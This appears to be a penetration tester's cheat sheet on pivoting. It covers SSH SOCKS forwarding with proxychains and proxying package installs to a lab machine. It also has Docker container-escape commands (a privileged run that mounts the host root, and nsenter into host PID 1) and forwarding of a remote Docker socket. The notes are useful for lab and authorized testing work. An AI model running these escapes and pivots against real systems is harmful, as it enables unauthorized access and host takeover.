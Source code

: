 # Pivoting

TODO -> https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding

## TUN Tunneling

### ligolo-ng

TODO


## SOCKS Proxying / Dynamic Port Forwarding

### SSH

```bash
ssh -D 1080 user@10.129.X.X -i root.id_rsa -fN
```

`/etc/proxychains4.conf` -> `socks5 127.0.0.1 1080`
```bash
proxychains4 -f /etc/proxychains4.conf rdp -i '172.16.5.19' -u 'user' -p 'pass'
```
-> you can only perform a `full TCP connect scan` over proxychains ??

___

#### Proxy

install software on an isolated lab machine using your internet connection. requires a proxy on your machine on 8080.

https://github.com/abhinavsingh/proxy.py
```shell
pip install proxy.py
proxy --hostname 0.0.0.0 --port 8181
```
```shell
export PROXY_IP=10.8.1.55
export PROXY_PORT=8181
apt -o Acquire::http::Proxy="http://$PROXY_IP:$PROXY_PORT" -o Acquire::https::Proxy="http://$PROXY_IP:$PROXY_PORT" update
apt -o Acquire::http::Proxy="http://$PROXY_IP:$PROXY_PORT" -o Acquire::https::Proxy="http://$PROXY_IP:$PROXY_PORT" install docker.io
```

```shell
docker ps
```

```shell
docker run -it --rm --privileged -v /:/mnt --user root jenkins/jenkins:latest bash
```

```shell
docker run -it --rm --pid=host --privileged 38cacb9bafd2 sh
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

might also host your own registry https://hub.docker.com/_/registry

In case of Docker there is no need to install it, just forward the sock and youse docker in your machine to control it
```shell
 ssh -R /tmp/docker.sock:/var/run/docker.sock user@yourbox 
```

```shell
sudo pip install --proxy http://<usr_name>:<password>@<proxyserver_name>:<port#> <pkg_name>
```
```shell
sudo pip install --proxy http://10.10.14.14:8080 impacket
```

https://gist.github.com/evantoli/f8c23a37eb3558ab8765

```shell
git -c http.https://domain.com.proxy http://proxyUsername:proxyPassword@proxy.server.com:port
```
```shell
git -c http.proxy=http://10.10.14.14:8181 clone https://github.com/lgandx/Responder
```
